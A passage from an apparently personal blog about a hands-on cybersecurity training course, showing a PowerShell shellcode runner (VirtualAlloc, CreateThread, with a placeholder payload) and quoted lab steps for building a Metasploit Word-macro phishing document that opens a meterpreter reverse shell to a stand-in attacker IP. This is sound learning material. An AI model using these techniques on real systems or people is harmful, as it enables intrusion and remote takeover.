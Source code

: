 >
>public class WaitFor{
> [DllImport("kernel32.dll", SetLastError=true)]
>    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
>}
>"@
>
>Add-Type $WaitFor
>
>$CrtThread= @"
>using System;
>using System.Runtime.InteropServices;
>
>public class CrtThread{
> [DllImport("kernel32", CharSet=CharSet.Ansi)]
>    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
>  
>}
>"@
>Add-Type $CrtThread   
>
>[Byte[]] $buf = SHELLCODE_PLACEHOLDER
>[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
>[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
>$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
>[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
>```

### DAY NINE ###

Risk assesment. Easy day, just a bit of thinking and it's done. Not much to say, risk assessment is just that. Couple questions and answers. Depending on those we can identify risks and maybe mitigate them. Pobody's nerfect!

### DAY TEN ###

Whoah! Tenth day already? Today we had to phish for some tasty reverse shell. So we had to prepare a payload using metasploit, they went nice and deep into how this and that works and whanot, all really nice and then we had to also use metasploit to listen for the reverse shell. We had a simulated mail exchange and after a short while a reverse shell was connected. Fun, not too complicated and fast *but* also very informative and gives me a basic understanding of tmetasploit. I can now explore around more confidently!

>You will use the Metasploit Framework to create the document with the malicious macro. This requires the following commands:
>
> *   Open a new terminal window and run `msfconsole` to start the Metasploit Framework
> *   `set payload windows/meterpreter/reverse_tcp` specifies the payload to use; in this case, it connects to the specified host and creates a reverse shell
> *   `use exploit/multi/fileformat/office_word_macro` specifies the exploit you want to use. Technically speaking, this is not an exploit; it is a module to create a document with a macro
> *   `set LHOST CONNECTION_IP` specifies the IP address of the attacker’s system, CONNECTION_IP in this case is the IP of the AttackBox
> *   `set LPORT 8888` specifies the port number you are going to listen on for incoming connections on the AttackBox
> *   `show options` shows the configuration options to ensure that everything has been set properly, i.e., the IP address and port number in this example
> *   `exploit` generates a macro and embeds it in a document
> *   `exit` to quit and return to the terminal
